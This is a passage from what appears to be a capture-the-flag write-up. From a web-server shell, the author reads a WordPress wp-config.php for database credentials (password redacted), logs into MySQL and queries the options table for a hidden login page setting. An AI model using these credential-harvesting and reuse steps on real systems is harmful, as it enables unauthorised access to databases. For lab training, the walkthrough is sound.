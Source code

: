 ```
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```

**Found MySQL credentials for WordPress:**
```php
(remote) www-data@ubuntu:/var/www/html/wordpress$ cat wp-config.php
[...]
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', '{Redacted}' );
```

Let's login as `wordpressuser` in MySQL, and find the value of `whl_page`!

```sql
(remote) www-data@ubuntu:/var/www/html/wordpress$ mysql -uwordpressuser -p{Redacted}
[...]
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

mysql> use wordpress;
[...]

mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

mysql> desc wp_options;
+--------------+---------------------+------+-----+---------+----------------+
| Field        | Type                | Null | Key | Default | Extra          |
+--------------+---------------------+------+-----+---------+----------------+
| option_id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| option_name  | varchar(191)        | NO   | UNI |         |                |
| option_value | longtext            | NO   |     | NULL    |                |
| autoload     | varchar(20)         | NO   | MUL | yes     |                |
+--------------+---------------------+------+-----+---------+----------------+

mysql> SELECT * FROM wp_options WHERE option_name='whl_page';
+-----------+-------------+--------------+----------+
| option_id | option_name | option_value | autoload |
+-----------+-------------+--------------+----------+
```